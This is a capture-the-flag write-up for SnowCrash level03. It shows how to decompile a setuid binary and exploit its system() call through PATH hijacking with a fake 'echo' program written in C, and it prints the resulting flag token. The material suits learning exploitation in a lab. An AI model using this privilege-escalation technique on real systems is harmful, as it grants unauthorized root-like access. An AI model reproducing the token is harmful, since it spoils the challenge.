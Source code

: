 # Level03

## Walkthrough

First, let's check the content of the home directory.

```bash
level03@SnowCrash:~$ ls -la
total 24
dr-x------ 1 level03 level03  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout
-r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc
-r-x------ 1 level03 level03  675 Apr  3  2012 .profile
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
level03@SnowCrash:~$ file level03 
level03: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x3bee584f790153856e826e38544b9e80ac184b7b, not stripped
```

The `s` on `level03` permissions indicates the [setuid bit](https://en.wikipedia.org/wiki/Setuid). This means that the file will run with the privileges of its owner instead of the user executing it. In our case, the owner is `flag03`.

To analyze the file, we transfer it to our local machine using [SCP](https://en.wikipedia.org/wiki/Secure_copy_protocol).

```bash
host:~$ scp -P 4242 level02@localhost:level03 level03
```

We decompile the binary using a decompiler explorer like [dogbolt](http://dogbolt.org).

[Link to the decompiled output](https://dogbolt.org/?id=0a105cdf-9237-4e31-9773-e9a12740c81a)

By checking the main function, we can figure out that the program:
- calls `getegid()` and `geteuid()` to retrieve the effective group ID and user ID
- sets them with `setresgid()` and `setresuid()` (in our case: `flag03`)
- executes a shell command (`echo`) with `system()`

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
	__gid_t v4; // [esp+18h] [ebp-8h]
	__uid_t v5; // [esp+1Ch] [ebp-4h]

	v4 = getegid();
	v5 = geteuid();
	setresgid(v4, v4, v4);
	setresuid(v5, v5, v5);
	return system("/usr/bin/env echo Exploit me");
}
```

How can we exploit this program? By running the `getflag` command, with the `flag03` privileges, inside the `system()` call.  
Although we cannot modify the arguments passed to the system call directly, we can exploit the fact that `echo` is a built-in command and alter it’s behavior to execute the `getflag` command instead.

We then have to create our own version of `echo` in the `/tmp` directory and add it to the `$PATH` so that it will be invoked instead of the original one. After that, we just run the script and voila, it executes the `getflag` command as `flag03`.

```bash
level03@SnowCrash:~$ cd /tmp && mkdir echo
level03@SnowCrash:/tmp$ cd echo && touch echo.c
level03@SnowCrash:/tmp/echo$ vim echo.c
# paste the c program from below
level03@SnowCrash:/tmp/echo$ gcc echo.c -o echo
level03@SnowCrash:/tmp/echo$ ls -la
total 12
drwxrwxr-x 2 level03 level03   80 Feb  8 19:51 .
d-wx-wx-wx 6 root    root     120 Feb  8 19:50 ..
-rwxrwxr-x 1 level03 level03 7160 Feb  8 19:51 echo
-rw-rw-r-- 1 level03 level03   84 Feb  8 19:49 echo.c
level03@SnowCrash:/tmp/echo$ export PATH=/tmp/echo:$PATH
level03@SnowCrash:/tmp/echo$ ~/level03 
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

```c
// echo.c
#include <stdlib.h>

int main(void) {
	system("/usr/bin/env getflag");
	return 1;
}
```
## Resources

- [Exploit system() call in C](https://stackoverflow.com/questions/39939853/exploit-system-call-in-c)
- [How to exploit system() call in C](https://www.go4expert.com/articles/exploit-c-t24920)
